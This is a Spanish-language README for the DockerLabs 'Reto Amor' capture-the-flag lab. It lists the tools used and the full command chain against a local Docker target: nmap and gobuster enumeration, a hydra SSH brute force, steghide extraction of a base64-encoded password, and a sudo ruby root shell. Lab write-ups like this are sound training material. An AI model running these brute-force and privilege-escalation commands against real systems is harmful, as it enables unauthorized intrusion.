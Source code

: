 **Mayor DIEGO A. ESMERAL M.**

# 🧪 Reto Amor - DockerLabs

Este repositorio documenta el desarrollo completo del laboratorio **Reto Amor** de la plataforma [DockerLabs.es](https://dockerlabs.es/), nivel **Fácil**. El objetivo fue desplegar una máquina vulnerable en Docker, realizar tareas de reconocimiento, explotación y escalamiento de privilegios mediante herramientas de hacking ético.

---

## 📦 Requisitos Previos

- Kali Linux (actualizado)
- Docker instalado: `sudo apt install docker.io`
- Carpeta `amor` transferida al entorno Kali mediante `scp`.

---

## 🔧 Herramientas Empleadas

| Herramienta | Definición | Funcionalidad | Casos de uso |
|------------|------------|---------------|--------------|
| **Docker** | Plataforma de contenedores para ejecutar aplicaciones en entornos aislados. | Simula entornos virtuales ligeros. | Laboratorios, CI/CD, microservicios. |
| **scp** | Copia segura de archivos entre máquinas mediante SSH. | Transferencia recursiva de carpetas. | Envío de archivos/scripts entre hosts. |
| **netdiscover** | Herramienta ARP para descubrir IPs activas. | Muestra IP, MAC y fabricante. | Reconocimiento de red local. |
| **nmap** | Escáner de puertos y servicios. | Escaneo completo de red y servicios. | Pentesting, auditoría, fingerprinting. |
| **gobuster** | Fuerza bruta de directorios web. | Descubre rutas y archivos ocultos. | Enumeración web ofensiva. |
| **hydra** | Ataques de fuerza bruta contra servicios. | Prueba múltiples contraseñas/usuarios. | Auditoría de credenciales débiles. |
| **steghide** | Esteganografía en imágenes/audio. | Extrae/oculta archivos en JPG/WAV. | CTF, forense, comunicaciones ocultas. |
| **base64** | Codificación binaria a texto. | Decodifica datos encubiertos. | Mensajes ocultos, manipulación de datos. |

---

## 🛠️ Desglose de Comandos Utilizados

```bash
# 1. Transferir carpeta
scp -r amor kali@192.168.1.12:/home/kali/Documents/

# 2. Instalar Docker (si aplica)
sudo apt install docker.io

# 3. Desplegar máquina
cd Documents/amor
chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar

# 4. Obtener interfaz de red
ip add

# 5. Escaneo de red en docker0
sudo netdiscover -i docker0 -r 172.17.0.0/24

# 6. Escanear puertos abiertos
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2

# 7. Fuzzing web
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# 8. Fuerza bruta SSH
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10

# 9. Acceso por SSH
ssh carlota@172.17.0.2

# 10. Buscar imagen
cd /carlota/Desktop/fotos/vacaciones

# 11. Descargar imagen a Kali
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor



# 12. Extraer contenido oculto
steghide extract -sf imagen.jpg

# 13. Decodificar mensaje oculto
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo

# 14. Escalada de privilegios
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'

✅ Resultado Final
Al finalizar el laboratorio se logra:

Identificar servicios expuestos (22, 80).

Obtener acceso SSH por fuerza bruta.

Detectar archivo con datos esteganográficos.

Decodificar contraseña y escalar privilegios a root.

DIAGRAMA DE FLUJO

![Diagrama de Flujo](AMOR.png)

